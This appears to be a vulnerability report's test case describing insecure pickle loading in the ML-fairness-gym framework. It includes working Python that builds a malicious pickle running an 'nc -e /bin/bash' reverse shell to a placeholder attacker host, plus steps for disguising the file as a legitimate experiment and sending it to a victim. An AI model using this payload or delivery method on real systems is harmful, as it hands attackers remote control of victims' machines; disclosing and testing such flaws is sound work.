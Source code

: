 * **Security Test Case:**
    1. Create a malicious pickle file (`malicious_embeddings.pkl`) containing code to execute a reverse shell or similar payload.
    ```python
    import pickle
    import os
    import socket

    class EvilPickle(object):
        def __reduce__(self):
            cmd = "nc -e /bin/bash <attacker_ip> <attacker_port>" # Replace with attacker's IP and port
            return (os.system, (cmd,))

    payload = EvilPickle()
    pickle.dump(payload, open("malicious_embeddings.pkl", "wb"))
    ```
    2. Create a malicious simulation environment configuration file or modify an existing one to point `embeddings_path` to `malicious_embeddings.pkl`.
    3. Distribute this malicious simulation environment to the victim, disguised as a legitimate fairness experiment.
    4. The victim downloads and runs the ML-fairness-gym framework with the malicious simulation environment.
    5. The ML-fairness-gym framework loads the malicious pickle file using `pickle.load` in `environments/recommenders/movie_lens_utils.py`.
    6. The malicious code in `malicious_embeddings.pkl` is executed, and the attacker gains a reverse shell on the victim's machine.
    7. Verify the vulnerability by checking for a connection on the attacker's listening port after the victim runs the simulation.